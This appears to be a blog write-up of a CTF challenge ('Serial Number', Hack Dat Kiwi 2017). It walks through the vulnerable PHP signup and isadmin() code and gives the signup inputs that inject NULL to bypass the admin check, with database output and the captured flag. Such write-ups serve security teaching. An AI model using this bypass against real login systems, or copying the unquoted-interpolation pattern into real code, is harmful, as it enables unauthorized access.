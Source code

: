 ```yaml
---
layout: post
title: Hack Dat Kiwi CTF 2017 - Serial Number
post_author: pyno
excerpt_separator: <!--more-->
---
```


The challenge here is to bypass a creative authentication mechanism.
You can download the server's source code [here]({{site.github_tree}}/tree/master/files/kiwictf2017/serialnumber), and run
it in local as I did during the CTF.

\<tl;dr\>

To have the flag you just need to login with a serialnuber which
exists in a table named 'serialnumbers', initially populated with
2 entries.

To bypass authentication and print the flag just signup as:
```
Username: pyno
Password: pyno
Serialnumber: serialnumber
```
And then login with the user pyno.

\</tl;dr\>

<!--more-->
Having a look at the code you will notice that all but one input that 
are put in queries are correctly sanitized with placeholders, so it 
was easy to identify the vulnerable point in signup() function, file
user.php:
```php
function signup($username,$password,$serialnumber)
{
	if (!ctype_alnum($serialnumber)) return false;
	if (!ctype_alnum($username)) return false;
	if (!$username or !$serialnumber) return;
	if (sql("select * from users where username=?",$username))
		return false;
	return sql("insert into users (username,password,serialnumber) 
			values ('$username','".md5($password)."',{$serialnumber})");
}
```
But at the beginning of this function serialnumber and username parameters 
are filtered with `ctype_alnum()` (i.e. only alphanumerical chars), and the
password is hashed before the query is executed... Woah challenging!

After a closer look to the query I realized that the variable 
`$serialnumber` is not included in quotes (interesting..)
and, since I'm not very familiar to PHP, it took me some google 
searches to work out what the notation `{$serialnumber}` stands 
for. 

This example should clarify this syntax for those like me who is not
so handy with PHP:
```php
php> $z = "magic";
php> $y = "z";
php> $str = "It's a kind of ${$y} :D";
php> echo $str;
It's a kind of magic :D
```

Ok now let's take a look to the isadmin() function which is the one
we have to bypass with our injection:
```php
function isadmin($user)
{
	return sql("select ? in (select serialnumber from serialnumbers) as result",
		$user->serialnumber)[0]->result!=="0";
}

```
To satisfy this condition we just need the query to return at least one row.
So we need either to:
1. have the same serialnumber of an admin, or
2. inject a serial number into the serialnumbers table (this is not done when
the user is added legitimately), or
3. have somehow magically a row returned by the query

**Option** 1. Clearly impossible. Infact, even if I had known an admin serial
number, the serialnumber field is set to UNIQUE in table users.

**Option** 2. Unexcaped var. With the PHP `${}` trick in mind I looked at 
unescaped variables that I could reference and, hey, the  `$password` vairable 
seems good!

So I tryied to put the injection in the password field doing a signup like:
```
Username: pypy
Password: 1234
Serialnumber: password
```
This way if I found in serialnumber the value 1234 means I'm able to inject
the payload in the password field. But unfortunately:

```sql
MariaDB [ctf]> select * from users;
+----+------------+--------------+----------------------------------+
| id | username   | serialnumber | password                         |
+----+------------+--------------+----------------------------------+
|  1 | admin      |   2147483647 | 8a26855bd1fe07fc3ec200dfa95cbc55 |
|  2 | kiwimaster |    287364618 | b91f928fb04ab6ce909d46280a00133b |
| 17 | ffdsfds    |        83878 | 83878c91171338902e0fe0fb97a8c47a |
| 18 | ax         |     85472373 | 85472373acac8668b4444dcc4a73ace5 |
| 19 | kljjjjj    |     24830589 | 24830589c2c78c189bc4911670f96624 |
| 33 | calla      |            8 | 8d8cedbaa9c9ce576daa3990991862b3 |
| 38 | pypy       |           81 | 81dc9bdb52d04dc20036dbd8313ed055 |
+----+------------+--------------+----------------------------------+
19 rows in set (0.00 sec)
```
It is evident that I can reference the variable `$password` only after the 
md5, so it is useless.

**Option 3**. Try them all. We said we need the query in isadmin() function
somehow to return at least a tuple. We have only 2 variables left.
Since refering to username which is excaped too doesn't seems too
promising, I tried to refer to the serialnumber variable itself.

```
Username: pyno
Password: pyno
Serialnumber: serialnumber
```

What appened surprised me a little:

```
MariaDB [ctf]> select * from users;
+----+------------+--------------+----------------------------------+
| id | username   | serialnumber | password                         |
+----+------------+--------------+----------------------------------+
|  1 | admin      |   2147483647 | 8a26855bd1fe07fc3ec200dfa95cbc55 |
|  2 | kiwimaster |    287364618 | b91f928fb04ab6ce909d46280a00133b |
| 17 | ffdsfds    |        83878 | 83878c91171338902e0fe0fb97a8c47a |
| 18 | ax         |     85472373 | 85472373acac8668b4444dcc4a73ace5 |
| 19 | kljjjjj    |     24830589 | 24830589c2c78c189bc4911670f96624 |
| 33 | calla      |            8 | 8d8cedbaa9c9ce576daa3990991862b3 |
| 38 | pypy       |           81 | 81dc9bdb52d04dc20036dbd8313ed055 |
| 39 | pyno       |         NULL | ae7e3a33fda6ac06a69bec3d5cec16a1 |
+----+------------+--------------+----------------------------------+
```
Hey null, null is good, NULL IS COOL! Let's try a query like the one in
isadmin() when filled with a NULL serialnumber:

```SQL
MariaDB [ctf]> select NULL in (select serialnumber from serialnumbers) as result;
+--------+
| result |
+--------+
|   NULL |
+--------+
1 row in set (0.00 sec)

```
One row! Urray!

So doing login with the pyno user I finally got the flag: VBPspiFWv8NYqBt

** **NOTE** **

A simpler solution is reported by kiwi CTF authors in their 
[Auto-Write-Up](http://2017.hack.dat.kiwi/writeup). They use a direct
approach to exploit the null pointer vulnerability by simply inserting
NULL as serialnumber in the signup form.



